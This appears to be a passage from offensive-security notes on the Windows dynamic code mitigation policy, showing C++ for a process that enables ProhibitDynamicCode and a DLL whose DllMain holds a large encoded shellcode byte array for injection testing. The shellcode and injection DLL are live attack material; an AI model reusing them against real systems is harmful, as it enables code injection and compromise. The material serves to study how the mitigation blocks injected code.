 After posting these notes on twitter, I got some replies that I wanted to highlight here:

![](<../../.gitbook/assets/image (494).png>)

## Code

{% tabs %}
{% tab title="mitigationpolicy.exe" %}
```cpp
#include <iostream>
#include <Windows.h>

int main()
{
	PROCESS_MITIGATION_DYNAMIC_CODE_POLICY dcp = {};
	dcp.ProhibitDynamicCode = 1;
	SetProcessMitigationPolicy(ProcessDynamicCodePolicy, &dcp, sizeof(dcp));

	while (true)
	{
		Sleep(1000 * 2);
	}

	return 0;
}
```
{% endtab %}

{% tab title="injectorDllShellcode.dll" %}
```cpp
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
		case DLL_PROCESS_ATTACH:
		{
			unsigned char shellcode[] =
				"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef\xff"
				"\xff\xff\x48\xbb\x1d\xbe\xa2\x7b\x2b\x90\xe1\xec\x48\x31\x58"
				"\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xe1\xf6\x21\x9f\xdb\x78"
				"\x21\xec\x1d\xbe\xe3\x2a\x6a\xc0\xb3\xbd\x4b\xf6\x93\xa9\x4e"
				"\xd8\x6a\xbe\x7d\xf6\x29\x29\x33\xd8\x6a\xbe\x3d\xf6\x29\x09"
				"\x7b\xd8\xee\x5b\x57\xf4\xef\x4a\xe2\xd8\xd0\x2c\xb1\x82\xc3"
				"\x07\x29\xbc\xc1\xad\xdc\x77\xaf\x3a\x2a\x51\x03\x01\x4f\xff"
				"\xf3\x33\xa0\xc2\xc1\x67\x5f\x82\xea\x7a\xfb\x1b\x61\x64\x1d"
				"\xbe\xa2\x33\xae\x50\x95\x8b\x55\xbf\x72\x2b\xa0\xd8\xf9\xa8"
				"\x96\xfe\x82\x32\x2a\x40\x02\xba\x55\x41\x6b\x3a\xa0\xa4\x69"
				"\xa4\x1c\x68\xef\x4a\xe2\xd8\xd0\x2c\xb1\xff\x63\xb2\x26\xd1"
				"\xe0\x2d\x25\x5e\xd7\x8a\x67\x93\xad\xc8\x15\xfb\x9b\xaa\x5e"
				"\x48\xb9\xa8\x96\xfe\x86\x32\x2a\x40\x87\xad\x96\xb2\xea\x3f"
				"\xa0\xd0\xfd\xa5\x1c\x6e\xe3\xf0\x2f\x18\xa9\xed\xcd\xff\xfa"
				"\x3a\x73\xce\xb8\xb6\x5c\xe6\xe3\x22\x6a\xca\xa9\x6f\xf1\x9e"
				"\xe3\x29\xd4\x70\xb9\xad\x44\xe4\xea\xf0\x39\x79\xb6\x13\xe2"
				"\x41\xff\x32\x95\xe7\x92\xde\x42\x8d\x90\x7b\x2b\xd1\xb7\xa5"
				"\x94\x58\xea\xfa\xc7\x30\xe0\xec\x1d\xf7\x2b\x9e\x62\x2c\xe3"
				"\xec\x1c\x05\xa8\x7b\x2b\x95\xa0\xb8\x54\x37\x46\x37\xa2\x61"
				"\xa0\x56\x51\xc9\x84\x7c\xd4\x45\xad\x65\xf7\xd6\xa3\x7a\x2b"
				"\x90\xb8\xad\xa7\x97\x22\x10\x2b\x6f\x34\xbc\x4d\xf3\x93\xb2"
				"\x66\xa1\x21\xa4\xe2\x7e\xea\xf2\xe9\xd8\x1e\x2c\x55\x37\x63"
				"\x3a\x91\x7a\xee\x33\xfd\x41\x77\x33\xa2\x57\x8b\xfc\x5c\xe6"
				"\xee\xf2\xc9\xd8\x68\x15\x5c\x04\x3b\xde\x5f\xf1\x1e\x39\x55"
```